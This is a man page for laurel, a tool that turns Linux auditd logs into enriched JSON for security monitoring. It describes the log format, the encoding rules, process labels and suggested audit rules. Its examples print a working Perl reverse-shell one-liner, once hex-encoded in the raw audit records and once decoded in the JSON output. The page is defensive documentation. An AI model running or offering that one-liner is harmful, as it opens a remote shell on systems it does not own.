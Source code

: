 ```yaml
---
title: laurel - About
section: 7
header: System Administration Utilities
footer: laurel 0.6.1
---
```


# NAME
laurel-about - High-level description of `laurel(8)` design, rationale, features

# DESCRIPTION

## Problem statement

While logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful for host-based security monitoring, the log format is not well-suited for at-scale analysis in a SIEM. 

### Format issues

- All non-trivial events are split across multiple lines that have to be joined together using a message identifier, but current search-centric log analysis systems are quite limited when it comes to join operations.
- Files and program executions are logged via `PATH` and `EXECVE` elements. The character set for strings is a limited subset of ASCII no escaping mechanism exists: If a string contains bytes that have special meaning in the format (even space or quote characters), the entire string is hex-encoded.
- Argument lists are preserved in `EXECVE` records, but with an `a0="…"`, `a1="…"`, `a2="…"`, `a3="…"` naming scheme, they are not easily accessible.
- Long command lines may be spread across multiple `EXECVE` event lines.
- For numeric values, there is no clear distinction whether they should be interpreted as decimal, octal, or hexadecimal values.

### Missing context

Most audit events are based on either system calls or file operations. Whether or not some suspicious actions should be considered harmful, largely depends on the context in which it takes place. For example, one would not expect most web applications to use `netcat` to connect to hosts on the Internet, but an administrator who is logged and over SSH who uses `netcat` to debug network issues should raise fewer suspicions. Unfortunately, the only context that can be added for Linux audit events "keys" using the `-k` parameter of `auditctl(8)`.

### Example

Spawning a simple Perl reverse-shell one-liner creates the following 7-line audit log entry that nicely demonstrates some of these  shortcomings:
```
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174
```

## Solution

In addition to (or instead of) writing log files, `auditd(8)` can pass log lines to one or multiple plug-ins for further processing, see `auditd-plugins(5)`. `laurel(8)` is intended to be run as such a plug-in. It reads the audit logs from standard input, parses them, and writes a modified form of the audit log to a different log file.

### Output format

Log records carrying the same event ID (the `msg=audit(TIME:SEQUENCE):` part) are collected into coherent events and output as a JSONlines-based log format. Most importantly, hex-encoded strings are output as regular JSON strings. [RfC8259] mandates that "text exchanged between systems that are not part of a closed ecosystem MUST be encoded using UTF-8", therefore any bytes or byte sequences that are not valid UTF-8 are percent-encoded as described in [RfC3986]. Numbers are parsed as decimal, octal, or hexadecimal values and output in an unambiguous format. List data (`SYSCALL.{a0 … a3}` and `EXECVE.a*`) are turned into JSON arrays. `PROCTITLE.proctitle` is split at NULL bytes and transformed into a list.

[RfC8259]: https://datatracker.ietf.org/doc/html/rfc8259 'The JavaScript Object Notation (JSON) Data Interchange Format'

[RfC3986]: https://datatracker.ietf.org/doc/html/rfc3986 'Uniform Resource Identifier (URI): Generic Syntax'

### Structure

Every audit log line produced by _LAUREL_ is one single JSON object consisting of key/value pairs that contains at least an `ID` field.

- `SYSCALL`, `EXECVE`, `CWD`, `PROCTITLE` fields point to single JSON objects.
- `PATH`, `SOCKADDR` fields point to lists of JSON objects.

Every other kernel-produced audit message not mentioned above results in field pointing to a list of JSON objects. Details may change after the list of kernel audit message types has been reviewed.

### Encoding of invalid UTF-8 strings and binary data

- Most byte values that represent printable ASCII characters are reproduced as-is (but are subject to JSON string escaping rules).
- Bytes that map to non-printable ASCII characters (less than 32/0x20; 127/0x7f) are percent-encoded.
- Byte values that map to `%` (37/0x25) and `+` (42/0x2b) are percent-encoded.
- Byte values outside of the ASCII range (greater than 127/0x7f) are reproduced as-is if they are part of a valid UTF-8 sequence. Otherwise, they are percent-encoded.

Handling of special Unicode characters may change in the future.

### Translation / Enrichment

If `auditd(8)` has been configured with `log_format=ENRICHED`, it translates some numeric values in the original audit data to strings. Per convention, it adds translated information using all-caps versions of the keys. For example, 

    arch=c000003e syscall=59 uid=0
	
get translated to

    ARCH=x86_64 SYSCALL=execve UID="root"

by `auditd(8)`. All information that is added to records by `laurel(8)`  follows the same convention, i.e. keys are turned into all-caps. While `laurel` can be configured to perform the same translations as `auditd(8)`, it can perform other enrichments, including interpreted scripts, collecting specific environment variables, or container information for processes that are run within container environments.

### Adding Context: Process Relationships, Labels

While processing audit records `laurel(8)` tracks processes and remembers `comm`, `exe`, and the event ID associated with the latest `execve` event of a process. Processes that are tracked can be assigned labels through various mechanisms and those labels can optionally be propagated to child processes.

Mechanisms by which labels can be assigned include:
- using the key from an audit event (the `-k` option of `auditctl(8)`)
- regular expression applied to the executable path (`SYSCALL.exe` field)
- regular expression applied to the script path (`SYSCALL.SCRIPT` field, enriched)

The process tracking information can be used to enrich fields containing process ids, including `SYSCALL.{pid, ppid}` and `OBJ_PID.opid` associated with `ptrace` attach or `kill` syscalls.

### Volume reduction: Filtering out events

To reduce the high volume of events, it is possible to filter out events by key or by process label. Events that are filtered are still used for process tracking.

### Example

The log lines from the Perl reverse shell execution above are processed by `laurel(8)` into the following JSON log line:
``` json
{"ID":"1626611363.720:348501","SYSCALL":{"arch":"0xc000003e","syscall":59,"success":"yes","exit":0,"a0":"0x55c094deb5c0","a1":"0x55c094dea770","a2":"0x55c094dbf1b0","a3":"0xfffffffffffff286","items":3,"ppid":722076,"pid":724395,"auid":1000,"uid":0,"gid":0,"euid":0,"suid":0,"fsuid":0,"egid":0,"sgid":0,"fsgid":0,"tty":"pts3","ses":3,"comm":"perl","exe":"/usr/bin/perl","subj":"=unconfined","key":null,"ARCH":"x86_64","SYSCALL":"execve","AUID":"user","UID":"root","GID":"root","EUID":"root","SUID":"root","FSUID":"root","EGID":"root","SGID":"root","FSGID":"root","PPID":{"EVENT_ID":"1626611323.973:348120","exe":"/bin/bash","comm":"bash","ppid":3190631}},"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]},"CWD":{"cwd":"/root"},"PATH":[{"item":0,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":1,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":2,"name":"/lib64/ld-linux-x86-64.so.2","inode":404797,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"}],"PROCTITLE":{"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"]}}
```

## Audit rule set advice

For process tracking to work properly, the kernel should be configured to log all `execve`-like calls and all `fork`-like for processes that are expected to ose `fork` without `execve`, e.g. shells:
```
-a exit,always -F arch=b32 -S execve,execveat -F success=1
-a exit,always -F arch=b64 -S execve,execveat -F success=1

-a exit,always -F arch=b32 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/sh
-a exit,always -F arch=b64 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/sh
-a exit,always -F arch=b32 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/bash
-a exit,always -F arch=b64 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/bash
# …
```
If the `fork` calls are not needed in the log file, they can be filtered out by assigning a key to those rules in the audit ruleset and adding this key to `filter.filter-keys`.

Note that older versions of auditd may not understand all the syscalls. In those cases, it may be necessary to substitute the syscall numbers for the ruleset.

# SEE ALSO
`laurel(8)`, `auditd(8)`, `audit.rules(7)`

# AUTHORS
- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>
